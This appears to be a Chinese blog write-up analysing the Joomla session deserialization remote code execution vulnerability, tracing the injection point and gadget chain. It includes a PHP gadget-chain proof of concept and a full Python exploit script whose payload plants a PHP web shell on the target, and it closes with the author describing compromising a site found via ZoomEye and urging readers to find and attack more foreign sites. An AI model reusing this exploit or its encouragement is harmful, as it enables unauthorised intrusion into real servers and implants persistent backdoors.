




##
Joomla 反序列化命令执行漏洞分析

------
>Author fengxuan

libraries/joomla/session/session.php

    if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))   #漏洞点
        {
            $this->set('session.client.forwarded', $_SERVER['HTTP_X_FORWARDED_FOR']);
        }

        ........

        // Check for clients browser
        if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
        {
            $browser = $this->get('session.client.browser');

            if ($browser === null)
            {   #未过滤直接赋值
                $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);  
            }
            elseif ($_SERVER['HTTP_USER_AGENT'] !== $browser)
            {
                // @todo remove code: $this->_state = 'error';
                // @todo remove code: return false;
            }
        }

/libraries/vendor/joomla/session/Joomla/Session/Storage.php

Joomla使用在JSessionStorage抽象类中用session_set_save_handler函数自定义了用户会话存储。

    abstract class JSessionStorage
	{
	......
    public function register()
    {
        // Use this object as the session handler
        session_set_save_handler(
            array($this, 'open'), array($this, 'close'), array($this, 'read'), array($this, 'write'),
            array($this, 'destroy'), array($this, 'gc')
        );
    }
    

在/libraries/joomla/session/storage/database.php中

`class JSessionStorageDatabase extends JSessionStorage`

类JSessionStorageDatabase继承了JSessionStorage并重写了session存储的方法

		public function write($id, $data)
	{
		// Get the database connection object and verify its connected.
		$db = JFactory::getDbo();

		$data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
		print_r($data);  //调试一下 打印存储的信息
		try
		{
			$query = $db->getQuery(true)
				->update($db->quoteName('#__session'))
				->set($db->quoteName('data') . ' = ' . $db->quote($data))
				->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
				->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

			// Try to update the session data in the database table.
			$db->setQuery($query);

			if (!$db->execute())
			{
				return false;
			}
			/* Since $db->execute did not throw an exception, so the query was successful.
			Either the data changed, or the data was identical.
			In either case we are done.
			*/
			return true;
		}

而read方法则会从数据库中提取这些信息然后自动反序列化

因为在joomla中有autoload()类似功能,所以我们实例化一个类之后，会自动把类所在的文件包含进来。

phith0n 在其漏洞分析http://drops.wooyun.org/papers/11330  的时候找到了`JDatabaseDriverMysqli`	这个类, 这个类的析构函数调用了disconnect()这个函数

		public function disconnect()
	{
		// Close the connection.
		if ($this->connection)
		{
			foreach ($this->disconnectHandlers as $h)
			{
				call_user_func_array($h/* "init" */, array( &$this));
			}

			mysqli_close($this->connection);
		}

		$this->connection = null;
	}

使用了call_user_func_array()这个函数，这个会调用用户自定义的函数或者方法对第二个参数执行,但是这里第二个参数不可控，于是又找到了`SimplePie`这个类，这个类的有一个方法 

		function init(){
		.....
		if ($this->cache && $parsed_feed_url['scheme'] !== '')
				{
					$cache = call_user_func(array($this->cache_class, 'create'),
					 $this->cache_location, call_user_func($this->cache_name_function/* "assert" */, $this->feed_url), 'spc');
				}

这里使用了call_user_func函数，我们可以对第二个call_user_func函数完全控制。于是poc如phith0n写的那样

	class JSimplepieFactory{
	}

	class JDatabaseDirverMysql{

	}

	class SimplePie {
	public $sanitize;
	public $cache;
	public $cache_name_function;
	public $feed_url;

	function __construct(){
		$this->feed_url = "phpinfo();JFactory::getConfig();exit;";
		$this->javascript = 9999;
		$this->cache_name_function = "assert";
		$this->sanitize = new JDatabaseDirverMysql();
		$this->cache = true;
	}
	}

	class JDatabaseDirverMysqli {
	protected $a;
	protected $disconnectHandlers;
	function __construct() {
		$this->a = new JSimplepieFactory();
		$x = new SimplePie();
		$this->connection = 1;
		$this->disconnectHandlers = [
			[$x, 'init'],
		];
	}
	}

	$t = new JDatabaseDirverMysqli();
	echo serialize($t);

生成的代码在用" | " 号连接，为什么用" | "，可以参见
<a href="https://github.com/80vul/phpcodz/blob/master/research/pch-013.md">https://github.com/80vul/phpcodz/blob/master/research/pch-013.md</a>的两个例子。

但是本来是没有用的，无法截断。幸好在数据库为utf-8编码的时候，一个字符大小为3个字节，超过的话将会舍弃，而我们可以利用这点来进行截断。可以参考<a href="http://xteam.baidu.com/?p=177">http://xteam.baidu.com/?p=177</a>

根据edb上写的poc(不是我懒，而是那个截断字符在burpsuite上怎么也复制不下开，试了好多次.....)

	 
	import requests #  easy_install requests
	import sys
 
	def get_url(url, user_agent):
 
    	headers = {
    'User-Agent': user_agent
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(3):
        response = requests.get(url, headers=headers,cookies=cookies)    
    return response.content
   
	def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))
 
    return encoded[:-1]
 
 
	def generate_payload(php_payload):
    
    php_payload = "eval({0})".format(php_str_noquotes(php_payload))
    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate
 
    return exploit_template
    
 

	pl = generate_payload("file_put_contents('C:\\xampp\\htdocs\\unvvietnam\\xxx.php', '<?php phpinfo();eval($_POST[w]);?>');")
 
	print get_url(sys.argv[1], pl)
	
	
我直接在zoomeye上搜了一个，然后测试了下就中了.....  当然PHP代码和路径看情况而定

shell

大家自己去zoomeye找测试一下吧，现在估计还挺多的....
(我测试的是国外的，大家不要搞国内的....)
